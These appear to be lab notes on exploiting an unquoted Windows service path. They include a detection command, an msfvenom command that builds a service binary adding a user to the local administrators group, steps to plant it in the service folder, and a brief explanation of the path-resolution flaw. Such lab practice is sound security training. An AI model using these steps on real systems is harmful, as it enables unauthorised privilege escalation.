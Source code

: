 

Detection

Windows VM

1. Open command prompt and type: sc qc unquotedsvc
2. Notice that the “BINARY_PATH_NAME” field displays a path that is not confined between quotes.

Exploitation

Kali VM

1. Open command prompt and type: msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
2. Copy the generated file, common.exe, to the Windows VM.

Windows VM

1. Place common.exe in ‘C:\Program Files\Unquoted Path Service’.
2. Open command prompt and type: sc start unquotedsvc
3. It is possible to confirm that the user was added to the local administrators group by typing the following in the command prompt: net localgroup administrators

For additional practice, it is recommended to attempt the TryHackMe room Steel Mountain (https://tryhackme.com/room/steelmountain).


way windows will work is it will enumerate through the file path trying to execute .
when it finds an executable file it excuses, if not, enumerate to next part of file name. 
Quotations prevents this

`C:\Program Files\Unquoted Path Stuff\Common Files\stuff.exe`
reads as
C: then program.exe then program files.exe then \Program Files\Unquoted.exe etc

be malicious by inserting malicious file designed to run BEFORE the next link in the file path

IE a file called Common.exe will execute before Common Files is opened
